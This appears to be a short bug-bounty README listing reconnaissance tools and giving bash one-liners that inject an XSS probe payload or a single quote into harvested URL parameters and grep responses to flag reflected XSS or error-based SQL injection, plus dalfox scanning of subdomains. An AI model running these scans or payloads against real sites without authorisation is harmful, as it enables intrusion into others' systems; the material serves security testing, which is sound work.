 # Some hunting scripts

## Tools:
https://github.com/tomnomnom/gf

https://github.com/tomnomnom/waybackurls

https://github.com/lc/gau

https://github.com/tomnomnom/qsreplace

https://github.com/projectdiscovery/httpx

https://github.com/tomnomnom/httprobe

https://github.com/tomnomnom/anew

https://github.com/devanshbatham/ParamSpider

https://github.com/hahwul/dalfox

## Find and testing XSS

```bash
python3 paramspider.py -d domain.com
```

### Output file has stored on output/domain.com.txt

```bash
cat domains.com.txt | gf xss | qsreplace '"><script>confirm(1)</script>' | while read host do; do curl --silent --insecure $host | grep -qs "<script>confirm(1)" && echo "[*] XSS HERE $host" ; done
```

## Find and testing XSS with Dalfox

```bash
subfinder -d domain.com -silent | httpx -l subdomains -silent | dalfox pipe -F -S
```

## Find SQL Injection Error Based
```bash
cat domains.com.txt | gf sqli | qsreplace "'" | while read host do; do curl --silent --insecure $host | grep -qs "SQL syntax" && echo "possible sql injection here $host" ; done
```
